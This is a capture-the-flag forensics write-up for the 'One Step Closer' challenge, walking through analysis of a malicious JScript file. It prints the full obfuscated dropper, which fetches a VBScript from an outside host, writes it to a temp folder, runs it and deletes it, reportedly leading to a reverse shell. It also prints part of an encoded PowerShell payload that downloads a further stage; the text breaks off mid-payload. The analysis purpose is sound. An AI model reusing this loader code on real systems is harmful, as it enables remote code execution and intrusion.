








# CHALLENGE NAME: One Step Closer #
<br /><br /><br /><br />
"Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. <br /><br />
<br /><br /><br /><br />

Start with the javascript file.
<br />
After reading it and understanding that it connects to a URL to get a malicious code from it and executes it to get a reverse shell.

```
function b0ggJmxhfltbMChDZCVjRzogKz5oQVtST3g(T3Z1eFJaQWJAZ0R2, UHw6dEdFTENDZGJsMg, In4yInUlMHp0Uyo) {
    SetStandardNameSpaces(In4yInUlMHp0Uyo.XmlNode);
    var aUV9SGdocW83TjpAImFeWi1sOWA = getPrefixForNamespace(In4yInUlMHp0Uyo.XmlNode, iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ);
    if (aUV9SGdocW83TjpAImFeWi1sOWA != null) {
        var pdcParameterDefs = getParameterDefs(UHw6dEdFTENDZGJsMg);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var paramString = T3Z1eFJaQWJAZ0R2.getString(pdcParameterDefs[defCount]);
            if (paramString != null && paramString.length > 0) {
                var paramName = aUV9SGdocW83TjpAImFeWi1sOWA + ":" + pdcParameterDefs[defCount];
                var currNode = In4yInUlMHp0Uyo.GetParameterInitializer(pdcParameterDefs[defCount], iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ)
                if (currNode == null) {
                    var ptRoot = In4yInUlMHp0Uyo.XmlNode.selectSingleNode("psf:PrintTicket");
                    var newParam = createProperty(paramName, "psf:ParameterInit", "xsd:string", paramString, In4yInUlMHp0Uyo);
                    ptRoot.appendChild(newParam);
                } else {
                    currNode.Value = paramString;
                }
            }
        }
    }
}

var lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw = new ActiveXObject("Scripting.FileSystemObject");
var CBZgIjkHfADIgnNwHIVgtNUBrjVWafHrRLSEDPUswrmjNaNRlTvDJdozVFfzVMHzjpdEoPlopkYPcunDXLgZbCcQToMaDqHieSCkYfzqatlzDRQLBtqFKLlIFmxbDebsFmXdhiHTvGzmMWEYMqzotmHetctmiYuMUuOQqaEEejfRnHyuiJAkwFYKwLrvfTVaxVzqMtWo = new ActiveXObject("WScript.Shell");
var AWgjPuudKWaufCdsGlXcfGBXlWzhGnugaLFEZJkXljTIiTlWxLziYRhZzkEFdwJZiyWUhBJhdaulcmVYllmbyxEpozeZhAVxCXClTUUNYngPYhWwTcyNovmwukeWsnLJLifhihpqYKHbzEQKIknuNqTCdJWSnzlEIEhoNPhzhAXLCkxsMeeRXRsGrNCeOSIcnFkMnhoj = 'C:\\Windows\\Temp';
var iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbiName = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.GetTempName() + ".vbs"; 
var iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.BuildPath(AWgjPuudKWaufCdsGlXcfGBXlWzhGnugaLFEZJkXljTIiTlWxLziYRhZzkEFdwJZiyWUhBJhdaulcmVYllmbyxEpozeZhAVxCXClTUUNYngPYhWwTcyNovmwukeWsnLJLifhihpqYKHbzEQKIknuNqTCdJWSnzlEIEhoNPhzhAXLCkxsMeeRXRsGrNCeOSIcnFkMnhoj, iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbiName);
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.send();

if (lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.status === 200) {
    var scriptText = lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.responseText;
    var niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX = JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.CreateTextFile(iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi, true);
    niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX.write(scriptText);
    niyXKljCzNIENaWUxwYBODsAbUBFKCJJDbfyisBKTJpULtjrXSJIFBuGWkcmuhgDVdoSEMJPHvMzQiawcsBNhsfKbJlyQjzKLgnECDbAprhNSnXpNJwbwMQZWzJFAaxCQavQsDuRRIYXARrTgOjQgNHKgerFZvrghSUylvwuvszeCUHWvaOxTjgJDUzNCjCHYBnfbGOX.close();
    var kFDpRbkGYzMjxpDvpsBUmWdRZQYKzHzicYnHeVAsyBErEExScslrucqNQomSurYvoaVCTILMrbSKgXeYCBiPqVYDhrOfNUdYGDYmDMHXaJRqZfRmNBivjAFdHQctMgOOYTbLIzTfMwiDriqYXdfJORQtnVlwEfumyikULcvhUBQOztBlzheoLivROSUFkYoEgWpzuyVe = CBZgIjkHfADIgnNwHIVgtNUBrjVWafHrRLSEDPUswrmjNaNRlTvDJdozVFfzVMHzjpdEoPlopkYPcunDXLgZbCcQToMaDqHieSCkYfzqatlzDRQLBtqFKLlIFmxbDebsFmXdhiHTvGzmMWEYMqzotmHetctmiYuMUuOQqaEEejfRnHyuiJAkwFYKwLrvfTVaxVzqMtWo.Exec('wscript "' + iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi + '"');
    while (kFDpRbkGYzMjxpDvpsBUmWdRZQYKzHzicYnHeVAsyBErEExScslrucqNQomSurYvoaVCTILMrbSKgXeYCBiPqVYDhrOfNUdYGDYmDMHXaJRqZfRmNBivjAFdHQctMgOOYTbLIzTfMwiDriqYXdfJORQtnVlwEfumyikULcvhUBQOztBlzheoLivROSUFkYoEgWpzuyVe.Status === 0) {
        WScript.Sleep(100);
    }
    JzmzxutRESvvBNHRMgpQhJAmcuQNznBjwAbLtjLBPxoSGrvUCnwREryDvVBastJacHxICmpgOWJgUwSRXRwqAfFBpuXfuvQKeSHGMmiEVLNOXDrsiBQmKtBgrFvFnOEJvhaUPRsHWHJXFQABJnHSqYrABIaNvQjFElrbSrEIiGzCJnSHUlYQEbKNziGHlMlUiowWRPGw.DeleteFile(iQXNrUYfNRSDeYTqnnkAIHwOoiXzYicXoPIsDDsvvMnUvRWDdAoPhJQODSZHHiYLhONKLMuCrHuXfnbBOfSXYQRqtlzvJanjlYDvJPkIZzBBxzIPXbVvzIiVfxtXKEUaPQjQShbHdYcntUkfCfqOYGuzAbsGwzJAUvAZLujabnpPtDdTlZeepJmpUIpLJifXCeTPLhbi);

} else {
    WScript.Echo("Fatal: " + lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.status);
}


function xxzICTEWUoZJBJKxzXZbbVSdcJZwpWdrOlNipimSCjHVGPbNIQmESWNdTqMEDUAvKRNqmroqETSTepIlqrGYbzqORBboJyIQldbCGgBJyMxvBBcmaCgiHqHiHCAqzXdbLbcNWQYwahvPUXRivRmbqhBxETFNBupQRezBVHBgIbWOunyFCILIiLvBNnGKhXSJgzGTHZQw(In4yInUlMHp0Uyo, UHw6dEdFTENDZGJsMg, T3Z1eFJaQWJAZ0R2) {
    SetStandardNameSpaces(In4yInUlMHp0Uyo.XmlNode);
    var aUV9SGdocW83TjpAImFeWi1sOWA = getPrefixForNamespace(In4yInUlMHp0Uyo.XmlNode, iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ);
    if (aUV9SGdocW83TjpAImFeWi1sOWA != null) {
        var pdcParameterDefs = getParameterDefs(UHw6dEdFTENDZGJsMg);
        for (var defCount = 0; defCount < pdcParameterDefs.length; defCount++) {
            var currNode = In4yInUlMHp0Uyo.GetParameterInitializer(pdcParameterDefs[defCount], iIxaSccVRaPCsnQAMPSaLszMbVuJdCKpmDnmtrqwBcHGAySufBgkUyoiqjtIUsuDAPocDpKQHPhwudAOvzZarRqsgQRUGtuhfNiMJhHjebvVbgBYtTmEUAwuFlSvGnYLyNEiLzdUDdYfFiqetXBfPSoYBGZAFBMkuYCLsnbQTOnRAgmyaYFdpjUcqtDdqBCdunNVzzuQ)
            if (currNode != null) {
                T3Z1eFJaQWJAZ0R2.setString(pdcParameterDefs[defCount], currNode.Value);
            }
        }
    }
}
```

But what is the malicious code?<br />
Now I connect to the IP that is given on THB, and I use it to get the URL.<br />



I will get the code, but it is very long output. So, lets save the output on a text file.


It is a VBScript code contains a lot of string manipulation. At the end of the code, it run PowerShell command.<br />
In PowerShell, the -Command parameter is used to specify a command that PowerShell should execute.




So, I want to know the content of this string "tomqOXAFzrt........."<br />


I will modify the code in a way that prints the value of this string on another file and execute the script.


https://github.com/OmarElalfy0/University-CTF-2023-Brains-Bytes/assets/95411113/877585a4-47d8-46ca-b2cb-0be4ee747761


```
powershell -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIem9tYmllcem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJwBoem9tYmllcHQem9tYmllcdem9tYmllcBwem9tYmllcDoem9tYmllcLwem9tYmllcvem9tYmllcGkem9tYmllcbgBmem9tYmllcGUem9tYmllcYwB0em9tYmllcGUem9tYmllcZem9tYmllcem9tYmllcuem9tYmllcHoem9tYmllcbwBtem9tYmllcGIem9tYmllcaQBlem9tYmllcC4em9tYmllcaem9tYmllcB0em9tYmllcGIem9tYmllcLwBXem9tYmllcEoem9tYmllcdgBlem9tYmllcFgem9tYmllcNwem9tYmllcxem9tYmllcGEem9tYmllcZwBtem9tYmllcE8em9tYmllcUQem9tYmllc2em9tYmllcEcem9tYmllcdwBfem9tYmllcDEem9tYmllcNgem9tYmllc5em9tYmllcDgem9tYmllcNwem9tYmllc2em9tYmllcDIem9tYmllcNgem9tYmllc0em9tYmllcDIem9tYmllcLgBqem9tYmllcHem9tYmllcem9tYmllcZwem9tYmllcnem9tYmllcDsem9tYmllcJem9tYmllcB3em9tYmllcGUem9tYmllcYgBDem9tYmllcGwem9tYmllcaQBlem9tYmllcG4em9tYmllcdem9tYmllcem9tYmllcgem9tYmllcD0em9tYmllcIem9tYmllcBOem9tYmllcGUem9tYmllcdwem9tYmllctem9tYmllcE8em9tYmllcYgBqem9tYmllcGUem9tYmllcYwB0em9tYmllcCem9tYmllcem9tYmllcUwB5em9tYmllcHMem9tYmllcdem9tYmllcBlem9tYmllcG0em9tYmllcLgBOem9tYmllcGUem9tYmllcdem9tYmllcem9tYmllcuem9tYmllcFcem9tYmllcZQBiem9tYmllcEMem9tYmllcbem9tYmllcBpem9tYmllcGUem9tYmllcbgB0em9tYmllcDsem9tYmllcJem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcQgB5em9tYmllcHQem9tYmllcZQBzem9tYmllcCem9tYmllcem9tYmllcPQem9tYmllcgem9tYmllcCQem9tYmllcdwBlem9tYmllcGIem9tYmllcQwBsem9tYmllcGkem9tYmllcZQBuem9tYmllcHQem9tYmllcLgBEem9tYmllcG8em9tYmllcdwBuem9tYmllcGwem9tYmllcbwBhem9tYmllcGQem9tYmllcRem9tYmllcBhem9tYmllcHQem9tYmllcYQem9tYmllcoem9tYmllcCQem9tYmllcaQBtem9tYmllcGEem9tYmllcZwBlem9tYmllcFUem9tYmllccgBsem9tYmllcCkem9tYmllcOwem9tYmllckem9tYmllcGkem9tYmllcbQBhem9tYmllcGcem9tYmllcZQBUem9tYmllcGUem9tYmllceem9tYmllcB0em9tYmllcCem9tYmllcem9tYmllcPQem9tYmllcgem9tYmllcFsem9tYmllcUwB5em9tYmllcHMem9tYmllcdem9tYmllcBlem9tYmllcG0em9tYmllcLgBUem9tYmllcGUem9tYmllceem9tYmllcB0em9tYmllcC4em9tYmllcRQBuem9tYmllcGMem9tYmllcbwBkem9tYmllcGkem9tYmllcbgBnem9tYmllcF0em9tYmllcOgem9tYmllc6em9tYmllcFUem9tYmllcVem9tYmllcBGem9tYmllcDgem9tYmllcLgBHem9tYmllcGUem9tYmllcdem9tYmllcBTem9tYmllcHQem9tYmllccgBpem9tYmllcG4em9tYmllcZwem9tYmllcoem9tYmllcCQem9tYmllcaQBtem9tYmllcGEem9tYmllcZwBlem9tYmllcEIem9tYmllceQB0em9tYmllcGUem9tYmllccwem9tYmllcpem9tYmllcDsem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcRgBsem9tYmllcGEem9tYmllcZwem9tYmllcgem9tYmllcD0em9tYmllcIem9tYmllcem9tYmllcnem9tYmllcDwem9tYmllcPem9tYmllcBCem9tYmllcEEem9tYmllcUwBFem9tYmllcDYem9tYmllcNem9tYmllcBfem9tYmllcFMem9tYmllcVem9tYmllcBBem9tYmllcFIem9tYmllcVem9tYmllcem9tYmllc+em9tYmllcD4em9tYmllcJwem9tYmllc7em9tYmllcCQem9tYmllcZQBuem9tYmllcGQem9tYmllcRgBsem9tYmllcGEem9tYmllcZwem9tYmllcgem9tYmllcD0em9tYmllcIem9tYmllcem9tYmllcnem9tYmllcDwem9tYmllcPem9tYmllcBCem9tYmllcEEem9tYmllcUwBFem9tYmllcDYem9tYmllcNem9tYmllcBfem9tYmllcEUem9tYmllcTgBEem9tYmllcD4em9tYmllcPgem9tYmllcnem9tYmllcDsem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcSQBuem9tYmllcGQem9tYmllcZQB4em9tYmllcCem9tYmllcem9tYmllcPQem9tYmllcgem9tYmllcCQem9tYmllcaQBtem9tYmllcGEem9tYmllcZwBlem9tYmllcFQem9tYmllcZQB4em9tYmllcHQem9tYmllcLgBJem9tYmllcG4em9tYmllcZem9tYmllcBlem9tYmllcHgem9tYmllcTwBmem9tYmllcCgem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcRgBsem9tYmllcGEem9tYmllcZwem9tYmllcpem9tYmllcDsem9tYmllcJem9tYmllcBlem9tYmllcG4em9tYmllcZem9tYmllcBJem9tYmllcG4em9tYmllcZem9tYmllcBlem9tYmllcHgem9tYmllcIem9tYmllcem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVem9tYmllcBlem9tYmllcHgem9tYmllcdem9tYmllcem9tYmllcuem9tYmllcEkem9tYmllcbgBkem9tYmllcGUem9tYmllceem9tYmllcBPem9tYmllcGYem9tYmllcKem9tYmllcem9tYmllckem9tYmllcGUem9tYmllcbgBkem9tYmllcEYem9tYmllcbem9tYmllcBhem9tYmllcGcem9tYmllcKQem9tYmllc7em9tYmllcCQem9tYmllccwB0em9tYmllcGEem9tYmllccgB0em9tYmllcEkem9tYmllcbgBkem9tYmllcGUem9tYmllceem9tYmllcem9tYmllcgem9tYmllcC0em9tYmllcZwBlem9tYmllcCem9tYmllcem9tYmllcMem9tYmllcem9tYmllcgem9tYmllcC0em9tYmllcYQBuem9tYmllcGQem9tYmllcIem9tYmllcem9tYmllckem9tYmllcGUem9tYmllcbgBkem9tYmllcEkem9tYmllcbgBkem9tYmllcGUem9tYmllceem9tYmllcem9tYmllcgem9tYmllcC0em9tYmllcZwB0em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcSQBuem9tYmllcGQem9tYmllcZQB4em9tYmllcDsem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcSQBuem9tYmllcGQem9tYmllcZQB4em9tYmllcCem9tYmllcem9tYmllcKwem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcRgBsem9tYmllcGEem9tYmllcZwem9tYmllcuem9tYmllcEwem9tYmllcZQBuem9tYmllcGcem9tYmllcdem9tYmllcBoem9tYmllcDsem9tYmllcJem9tYmllcBiem9tYmllcGEem9tYmllccwBlem9tYmllcDYem9tYmllcNem9tYmllcBMem9tYmllcGUem9tYmllcbgBnem9tYmllcHQem9tYmllcaem9tYmllcem9tYmllcgem9tYmllcD0em9tYmllcIem9tYmllcem9tYmllckem9tYmllcGUem9tYmllcbgBkem9tYmllcEkem9tYmllcbgBkem9tYmllcGUem9tYmllceem9tYmllcem9tYmllcgem9tYmllcC0em9tYmllcIem9tYmllcem9tYmllckem9tYmllcHMem9tYmllcdem9tYmllcBhem9tYmllcHIem9tYmllcdem9tYmllcBJem9tYmllcG4em9tYmllcZem9tYmllcBlem9tYmllcHgem9tYmllcOwem9tYmllckem9tYmllcGIem9tYmllcYQBzem9tYmllcGUem9tYmllcNgem9tYmllc0em9tYmllcEMem9tYmllcbwBtem9tYmllcG0em9tYmllcYQBuem9tYmllcGQem9tYmllcIem9tYmllcem9tYmllc9em9tYmllcCem9tYmllcem9tYmllcJem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVem9tYmllcBlem9tYmllcHgem9tYmllcdem9tYmllcem9tYmllcuem9tYmllcFMem9tYmllcdQBiem9tYmllcHMem9tYmllcdem9tYmllcByem9tYmllcGkem9tYmllcbgBnem9tYmllcCgem9tYmllcJem9tYmllcBzem9tYmllcHQem9tYmllcYQByem9tYmllcHQem9tYmllcSQBuem9tYmllcGQem9tYmllcZQB4em9tYmllcCwem9tYmllcIem9tYmllcem9tYmllckem9tYmllcGIem9tYmllcYQBzem9tYmllcGUem9tYmllcNgem9tYmllc0em9tYmllcEwem9tYmllcZQBuem9tYmllcGcem9tYmllcdem9tYmllcBoem9tYmllcCkem9tYmllcOwem9tYmllckem9tYmllcGMem9tYmllcbwBtem9tYmllcG0em9tYmllcYQBuem9tYmllcGQem9tYmllcQgB5em9tYmllcHQem9tYmllcZQBzem9tYmllcCem9t